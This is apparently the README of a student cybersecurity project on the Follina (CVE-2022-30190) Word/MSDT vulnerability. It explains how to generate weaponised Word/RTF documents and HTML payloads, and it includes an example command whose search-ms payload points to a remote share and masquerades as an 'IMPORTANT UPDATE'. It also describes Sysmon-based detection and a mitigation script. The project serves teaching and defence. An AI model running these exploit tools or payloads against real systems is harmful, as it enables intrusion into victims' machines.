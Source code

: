 # Five Nights at Follina's
A Fullstack Academy Cybersecurity project examining the full cycle of the Follina (CVE-2022-30190) vulnerability, from exploit to detection and defense.

Team:
- [Brian Aldrich](https://github.com/SB-Aldrich)
- [YoungWa Kim](https://github.com/T4369)
- [Jay O'Neill](https://github.com/rhomv)
- [(Binyang) Jeffrey Xu](https://github.com/jeffymcjeffface)

This set of tools assumes that you have a web host or can spin up a simple webserver using Python to host the generated or example payload files. Please use these tools only on VMs or other disposable environments!

# Offensive Tools
To create the Microsoft Word document with the Follina exploit, run docgen_v3.py, using the following options
- --extention/-e : change the document output from .doc (default) to rtf for a zero click attack. -e rtf
- --ip_address/-ip : change the IP address the document will try to reach out to (detault is 10.0.2.15).
- --port/-p : changes the port it will try to reach out to (default is 8000)

To create a payload html file, use generate_payload.py with either the `poc` subcommand to generate a proof of concept payload that opens the Windows Calculator or the `custom` subcommand to generate a payload with your own script.

Examples:
- `python generate_payload.py poc -o test.html` will generate the calculator payload in test.html
- `python generate_payload.py custom -o test.html -p "search-ms:query=procmon.exe&crumb=location:%5C%5Clive.sysinternals.com%5Ctools&displayname=IMPORTANT%20UPDATE"` will generate test.html as a custom payload with the SearchNightmare exploit

Example payloads can be found in the "Example Payloads" folder.

# Defensive Tools
Follina detection requires Sysmon to be installed to log events. Our detection methods here rely on finding instances where Microsoft Word calls MSDT.exe, but the scripts can be modified to search for other artifacts such as the arguments used by Follina in its Powershell command. The following tools are available:
- The Python scripts in the Sysmon Search folder allow a user to search their Sysmon logs for possible indicators of compromise by Follina and then manually examine those logs for confirmation.
- The msdt_exp-del-v3.ps1 Powershell script performs a similar search and, if it detects signs of Follina, makes a backup of the MSDT registry key and disables MSDT by deleting the key.
